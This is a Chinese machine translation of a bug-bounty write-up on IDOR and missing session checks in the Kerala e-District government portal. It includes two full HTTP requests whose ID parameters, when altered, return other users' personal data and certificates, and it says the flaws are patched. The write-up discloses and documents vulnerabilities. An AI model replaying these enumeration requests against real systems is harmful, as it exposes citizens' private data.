


# 我保护了由 NIC 维护的喀拉拉邦政府网站上超过 1000 万用户的数据。

> 原文：<https://infosecwriteups.com/i-secured-more-than-10-million-users-data-on-the-kerala-government-website-maintained-by-nic-fb7d5a9f156b?source=collection_archive---------1----------------------->

嗨黑客们！！我再次带着喀拉拉邦政府网站上的新漏洞回来了。

对于那些不认识我的人，请在谷歌上搜索我的名字“克里希纳德夫·梅莱维拉”

目标地点是:[http://edistrict.kerala.gov.in/](http://edistrict.kerala.gov.in/)

什么是电子地区入门网站？


Krishnadev P Melevila 保护喀拉拉邦电子区门户网站

```
Kerala E-District project intend to provide Government services to citizens through Common Service Centers(CSC) which are easily accessible. Services from different departments are brought under one umbrella at any CSC. Some of the services are also made available through online portal. It utilizes backend computerization to e-enable the delivery of services and ensures transparency and uniform application of rules. The project involves integrated and seamless delivery of services to public by automation, integration and incorporating Business Process Re-Engineering(BPR) where ever required. In a nutshell Edistrict is a tailor made program for minimizing effort and time to provide prompt and effective services to the public.
```

所以让我们开始吧，

> 漏洞:IDOR +不正确的身份验证
> 
> 影响:关键
> 
> 风险:攻击者可以查看/编辑/修改用户(受害者)的数据。
> 
> 优先级:P0
> 
> 范围:攻击者可以下载其他用户的证书，
> 查看/编辑/修改其他用户的敏感数据。总访问
> 控制

在攻击者视点中重现的步骤:

1.两个端点易受攻击。

```
POST /dwr/call/plaincall/registrationDAO.getApplicantAgeGenDWR.dwr HTTP/1.1
Host: edistrict.kerala.gov.in
Cookie: <REDACTED>
Content-Length: 344
Sec-Ch-Ua: <REDACTED>
User-Agent: <REDACTED>
Content-Type: text/plain
Accept: */*
Origin: [https://edistrict.kerala.gov.in](https://edistrict.kerala.gov.in)
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: <REDACTED>
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,ml;q=0.8,hi;q=0.7
Connection: close
callCount=1
windowName=
c0-scriptName=registrationDAO
c0-methodName=getApplicantAgeGenDWR
c0-id=0
c0-param0=number:3735XXXX
batchId=4
instanceId=0
page=<REDACTED>
```

下面是对此端点的调查:
❖cookie/会话验证没有完成。
❖ IDOR 检测到
❖如果攻击者将' c0-param0=number '参数从' 3735XXXX '更改为
任何其他类似的值，攻击者将获得一些随机的用户敏感信息，如身份证号、年龄、电话、电子邮件、收入详情等…

第二个

```
POST /openSearch.do HTTP/1.1
Host: edistrict.kerala.gov.in
Cookie: <REDACTED>
JSESSIONID=8Bd+K88MaOh-XbWczEiY0g__.node1
Content-Length: 348
Cache-Control: <REDACTED>
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: <REDACTED>
Upgrade-Insecure-Requests: 1
Origin: [https://edistrict.kerala.gov.in](https://edistrict.kerala.gov.in)
Content-Type: application/x-www-form-urlencoded
User-Agent: <REDACTED>
Accept:
text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q
=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer:<REDACTED>
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,ml;q=0.8,hi;q=0.7
Connection: close
s_code=RC&updated_date=&tknName=token&token=16516737194326072874285415736384&action=&fromDat
eHidden=&toDateHidden=&tknName=token&token=16516737194326072874285415736384&tknName=token&lo
gin=&navigate=&txtApplicationNo=&userHidden=&receiptHidden=&searchService=qrPrint&srvceType=
cert&applNo=70913065&appno=&proceedingform=&servicetype=Non-Creamy+Layer
```

以下是对该终点的调查:

❖参数“cert&applNo”易受 IDOR 攻击。
❖无会话/cookie 验证。

通过利用这个端点，攻击者可以下载政府颁发的其他用户的证书。

证明



就这样结束了！！现在我已经向国家信息中心报告了 3 个漏洞，其中 3 个已经被修补。



漏洞已修补

我在 NIC 上的第一个漏洞:[https://medium . com/bugbountywriteup/exposure-million-of-critical-data-on-Kerala-civil-supplies-website-cc 3 a4 bed 5d 07](https://medium.com/bugbountywriteup/exposing-millions-of-critical-data-on-kerala-civil-supplies-website-cc3a4bed5d07)

我在 NIC 上的第二个漏洞:[https://medium . com/bugbountywriteup/API-authentic ation-bypass-on-national-informatics-centre-d 438 B3 BAE 085](https://medium.com/bugbountywriteup/api-authentication-bypass-on-national-informatics-centre-d438b3bae085)

我的其他错误报告:[https://medium.com/@krishnadevpmelevila](https://medium.com/@krishnadevpmelevila)

***别忘了在 medium 等社交媒体上关注我。也请为这篇文章鼓掌 50 次，这是我写更多的灵感！！***

我需要你的支持来写更多的东西，请给我买杯咖啡吧:【https://www.buymeacoffee.com/krishnadevpm 

*我的 Instagram 手柄:*[*https://instagram.com/krishnadev_p_melevila*](https://instagram.com/krishnadev_p_melevila)

*我的推特句柄:*[*https://twitter.com/Krishnadev_P_M*](https://twitter.com/Krishnadev_P_M)

*我的 LinkedIn 句柄:*[*https://www.linkedin.com/in/krishnadevpmelevila/*](https://www.linkedin.com/in/krishnadevpmelevila/)

*我的人事网站:*[【http://krishnadevpmelevila.com/】T21](http://krishnadevpmelevila.com/)